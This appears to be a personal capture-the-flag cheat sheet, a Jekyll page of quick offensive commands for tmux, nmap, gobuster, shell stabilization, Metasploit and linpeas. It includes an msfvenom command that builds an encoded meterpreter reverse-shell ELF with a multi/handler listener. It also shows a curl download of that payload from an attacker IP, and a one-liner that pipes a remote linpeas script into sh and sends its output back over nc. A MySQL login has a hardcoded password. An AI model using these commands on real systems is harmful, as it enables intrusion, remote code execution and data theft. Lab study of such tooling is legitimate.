 ```yaml
---
layout: single
classes: #wide
title: "General CTF"
sidebar:
    title: "CTF knowledge"
    nav: infosec
collection: infopages
permalink: /ctfs_n_such/general
toc: true
toc_sticky: true
author_profile: true
---
```


Keepin it simple

strace - see how program exited

# Tmux
re-attach session:  
`tmux a`  
Attach file session:  
`tmux -S <name>`   
Rename session:  
`prefix + $`    
Pane -> Window:
`prefix + !`  
Move pane left/right:  
`prefix + { or }`
Save / restore:  
`prefix + s / r`

# Nmap 
basic scan:  
```nmap -sV -sC -T4 -p- -oN nmap $url```  


# Fuzzing 
quick fuzz:  
```gobuster dir -u $url -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 100 -o gobuster```

recursive:  
```shuffledns``` 
# shells

reverse shell tips:  
```rlwrap nc -lnvpn``` (reverse shell with better fuctionality/arrowkeys)  

after get shell:  
```python3 -c 'import pty;pty.spawn("/bin/bash")'``` or ```script /dev/null -c bash```  
```ctrl - z```(to background the nc process)  
```stty raw -echo;fg```
```export TERM=xterm```   
* makes able to clear term
* better machine access

## Meterpreter
Basic meterpreter payload:   
```msfvenom -p linux/x86/meterpreter/reverse_tcp --encoder x86/shikata_ga_nai LHOST=10.10.14.236 LPORT=8888 -f elf -o shell.elf```  

# Msfconsole
listener for rev shell:  
```
use exploit/multi/handler 
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST tun0 
set LPORT 8888 
run
```

# curl
```python -m http.server 6969```
```curl 10.10.16.20:6969/shell.elf -o /tmp/shell.elf```


# linpeas
[url](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)  
`less -r` - view linpeas results   
`./linpeas.sh >> output`  
Linpeas from mem -> host:  
```
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002
```

# Mysql
`mysql -u craftuser -pCraftCMSPassword2023! -h localhost craftdb`